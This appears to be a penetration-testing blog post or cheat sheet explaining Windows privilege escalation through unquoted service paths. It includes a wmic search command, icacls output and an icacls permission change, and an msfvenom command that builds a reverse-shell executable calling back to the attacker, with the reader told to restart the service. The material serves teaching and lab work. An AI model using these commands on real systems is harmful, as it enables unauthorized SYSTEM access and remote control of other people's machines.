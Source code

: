 ```yaml
---
description: >-
  Unquoted Service Path
title: Unquoted Service Path             # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - Unquoted Service Path]                     # Change Templates to Writeup
tags: [windows privesc, unquoted service path]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Another interesting attack vector that can lead to privilege escalation on Windows operating systems revolves around _unquoted service paths_. We can use this attack when we have write permissions to a service's main directory and subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. Most of the time, services that accompany third party software are stored under the C:\\Program Files directory, which contains a space character in its name. This can potentially be turned into an opportunity for a privilege escalation attack.

When using file or directory paths that contain spaces, the developers should always ensure that they are enclosed by quotation marks. This ensures that they are explicitly declared. However, when that is not the case and a path name is unquoted, it is open to interpretation. Specifically, in the case of executable paths, anything that comes after each whitespace character will be treated as a potential argument or option for the executable.

For example, imagine that we have a service stored in a path such as C:\\Program Files\\My Program\\My Service\\service.exe. If the service path is stored _unquoted_, whenever Windows starts the service it will attempt to run an executable from the following paths:

```c
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

In this example, Windows will search each "interpreted location" in an attempt to find a valid executable path. In order to exploit this and subvert the original unquoted service call, we must create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and name it so that it also matches the interpreted filename. Then, when the service runs, it should execute our file with the same privileges that the service starts as. Often, this happens to be the NT\\SYSTEM account, which results in a successful privilege escalation attack.

For example, we could name our executable Program.exe and place it in C:\\, or name it My.exe and place it in C:\\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\\Program Files\\My Program in our example) or subdirectory (C:\\Program Files\\My Program\\My service) is misconfigured, allowing us to plant a malicious My.exe binary.

Although this vulnerability requires a specific combination of requirements, it is easily exploitable and a privilege escalation attack vector worth considering.

### Exploitation

First find programs _unquoted_ and with spaces using wmic:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Verify that unsecure permissions are configured with icacls, if the permissions BUILTIN\Users has the write (W) permission then you can sucessfully execute this vector attack:
```cmd
C:\Program Files\Zen>icacls "C:\Program Files\Zen"
C:\Program Files\Zen BUILTIN\Users:(OI)(CI)(W)
                     NT SERVICE\TrustedInstaller:(I)(F)
                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Users:(I)(RX)(W)
                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

If by any chance there is no Write (W) permission you can still be able to add such permission with icacls:
```powershell
icacls "C:\Program Files\Vk9 Security/binary files" /GRANT "BUILTIN\Users":W
```

Upload a reverse shell created with msfvenom and upload it to the victim machine _unquoted_ path:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f exe -o zen.exe
```

Then restart the service so it is executed from your reverse shell.
